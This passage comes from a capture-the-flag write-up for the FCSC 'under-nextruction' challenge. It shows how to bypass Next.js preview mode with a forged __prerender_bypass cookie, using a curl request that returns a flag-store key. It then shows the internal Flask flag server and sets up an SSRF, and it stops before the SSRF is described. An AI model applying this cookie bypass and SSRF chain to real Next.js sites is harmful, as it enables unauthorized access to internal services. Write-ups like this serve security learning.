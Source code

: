 Basically, the `tryGetPreviewData` function checks if the cookie `__prerender_bypass` is set and if it matches the `previewModeId`. If it does, we are in preview mode.

We can now set the `__prerender_bypass` cookie to the value of the `previewModeId` we received in the previous request.

```bash
curl https://under-nextruction.fcsc.fr:2213/api/user \
  -b 'session=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InZleGNpdGVkIiwiaWF0IjoxNzQ1MjM4NDUwLCJleHAiOjE3NDUzMjQ4NTB9.Y6BpTLOtsNlBdx6yWdXdZAv3UN2wZFv1iJ2o2Eywy40; __prerender_bypass=59c6709a1c2b39386a72b0026399960b'
```

```json
{
  "username": "vexcited",
  "timestamp": "2025-04-22T00:03:24.487Z",
  "flagStoreKey": "8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457"
}
```

We now bypassed preview mode and we can store the `flagStoreKey`.

## Where are we going ?

The flag is stored in a Python server running on the `under-nextruction-flag` container, on port `5000`.

```python
from flask import Flask, request, jsonify
from os import environ

app = Flask(__name__)

@app.get("/get_flag")
def get_flag():
	if request.headers.get("X-Key") != environ.get("FLAG_STORE_KEY", "FAKE_KEY"):
		return jsonify({ "error": "Invalid X-Key value provided!" }, 403)

	return jsonify({ "flag": environ.get("FLAG") })

app.run("0.0.0.0", 5000)
```

`X-Key` is the header used to retrieve the flag. The value of this header is stored in the environment variable `FLAG_STORE_KEY`.

The value of this variable is the same as the `flagStoreKey` we received in the previous request.

You understood, we have to find a way to request `http://under-nextruction-flag:5000/get_flag` with the `X-Key` header set to the value of the `flagStoreKey` within the Next.js app.

## Exploiting another SSRF

Let's take a look at `middleware.js`.

